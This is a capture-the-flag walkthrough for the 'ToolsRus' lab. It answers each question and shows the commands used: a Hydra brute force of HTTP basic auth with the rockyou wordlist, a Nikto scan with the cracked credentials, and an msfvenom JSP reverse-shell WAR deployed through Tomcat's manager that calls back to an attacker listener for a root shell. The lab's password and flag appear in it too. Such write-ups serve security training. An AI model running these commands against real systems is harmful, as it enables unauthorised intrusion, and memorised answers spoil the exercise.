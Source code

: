 # ToolsRus

---

> What directory can you find, that begins with a "g"?

`guidelines`

> Whose name can you find from this directory?

`bob`

> What directory has basic authentication?

`protected`

> What is bob's password to the protected part of the website?

`bubbles`

// Defeating HTTP Basic Auth with Hydra

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt -s 80 -f 10.10.165.186 http-get /protected

[80][http-get] host: 10.10.165.186   login: bob   password: bubbles
```

> What other port that serves a webs service is open on the machine?

`1234`

> What is the name and version of the software running on the port from question 5?

`Apache Tomcat/7.0.88`

> Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

How many documentation files did Nikto identify?

`5`

`nikto -h http://10.10.165.186:1234/manager/html/ -id bob:bubbles`

> What is the server version?

`Apache/2.4.18`

> What version of Apache-Coyote is this service using?

`1.1`

> Use Metasploit to exploit the service and get a shell on the system.

What user did you get a shell as?

`root`

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.96.175 LPORT=4444 -f war > exploit.war

upload and deploy `exploit.war` in `Deploy` section under `/manager/html`

Then, we will get a new entry `/exploit` in `Applications` section under `/manager/html`

$ nc -lnvp 4444

move to `http://10.10.165.186:1234/exploit/`

Got Shell!
```


> What flag is found in the root directory?

`ff1fc4a81affcc7688cf89ae7dc6e0e1`